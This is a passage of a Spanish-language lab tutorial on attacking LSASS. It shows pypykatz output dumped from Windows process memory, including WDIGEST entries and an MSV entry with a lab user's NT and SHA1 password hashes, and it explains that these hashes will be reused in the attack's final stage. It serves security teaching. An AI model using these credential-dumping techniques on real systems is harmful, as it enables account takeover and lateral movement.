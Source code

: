 ```
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)

== LogonSession ==
authentication_id 1343859 (148173)
session_id 2
username DWM-2
domainname Window Manager
logon_server
logon_time 2021-12-14T18:14:25.248681+00:00
sid S-1-5-90-0-2
luid 1343859
	== WDIGEST [148173]==
		username WIN-6T0C3J2V6HP$
		domainname WORKGROUP
		password None
		password (hex)
	== WDIGEST [148173]==
		username WIN-6T0C3J2V6HP$
		domainname WORKGROUP
		password None
		password (hex)

```

Veamos una visión más detallada de la información útil en la salida.

### **MSV**

Atacando a LSASS

```
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA

```

[MSV](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package)es un paquete de autenticación en Windows que LSA pide para validar los intentos de inicio de sesión en la base de datos SAM. Pypykatz extrajo el`SID`, `Username`, `Domain`, e incluso el`NT` & `SHA1`Hashes de contraseña asociados con la sesión de inicio de sesión de la cuenta de usuario de BOB almacenada en la memoria de proceso LSASS. Esto resultará útil en la etapa final de nuestro ataque cubierto al final de esta sección.
